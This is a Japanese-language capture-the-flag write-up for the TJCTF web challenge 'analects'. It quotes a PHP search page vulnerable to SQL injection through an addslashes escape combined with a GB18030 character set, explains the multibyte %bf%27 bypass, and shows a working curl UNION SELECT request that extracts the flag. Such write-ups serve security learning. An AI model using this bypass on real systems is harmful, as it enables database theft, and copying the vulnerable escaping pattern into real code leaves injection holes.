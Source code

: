 # analects:web:246pts
confucius was a cool guy I think he said some things  
[analects.tjc.tf](https://analects.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
サイトとソースが渡される。  
Analects of Confucius  
[site.png](site/site.png)  
論語の検索サイトのようだ。  
ソースを見るとphpは以下のようであった。  
```php
<?php

  mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);

  function search() {
    $ret = [];

    if (!isset($_GET["q"])) {
      return $ret;
    }

    $db = new mysqli("p:mysql", "app", "07b05ee6779745b258ef8dde529940012b72ba3a007c7d40a83f83f0938b5bf0", "analects");

    $query = addslashes($_GET["q"]);
    $sql = "SELECT * FROM analects WHERE chinese LIKE '%{$query}%' OR english LIKE '%{$query}%'";
    $result = $db->query($sql);

    while ($row = $result->fetch_assoc()) {
      $row["chinese"] = mb_convert_encoding($row["chinese"], "UTF-8", "GB18030");
      $row["english"] = mb_convert_encoding($row["english"], "UTF-8", "GB18030");
      array_push($ret, $row);
    }
    $result->free_result();

    return $ret;
  }

  header('Content-Type: application/json; charset=UTF-8');
  echo json_encode(search());
?>
```
SQLiが可能かと疑うが、`addslashes`に通っており安全に見える。  
ここで、GB18030という文字コードが使われていることに注目する。  
配布された1-dump.sqlにも`CHARSET=gb18030`とされている。  
よく知られている`addslashes`の文字コードを利用したSQLiである。  
入力として`%bf%27`を考えると`'`(`%27`)をエスケープするため`\'`(`%5c%27`)へ置換する。  
全体として`%bf%5c%27`となるが、先頭の`%bf%5c`が中国語のマルチバイト文字と解釈され、サニタイズに失敗する。  
これによりSQLiが可能となったので、ソースの3-flag.shよりわかるflagを取得すればよい。  
```bash
$ curl "https://analects.tjc.tf/search.php?q=%bf%27%20UNION%20SELECT%201,%201,%201,%201,%201,%20flag%20FROM%20flag%20--%20satoki"
[{"id":"1","book":"1","chapter":"1","number":"1","chinese":"1","english":"tjctf{h0w_t0_h4v3_go0d_mor4l5??}"}]
```
flagが得られた。  

## tjctf{h0w_t0_h4v3_go0d_mor4l5??}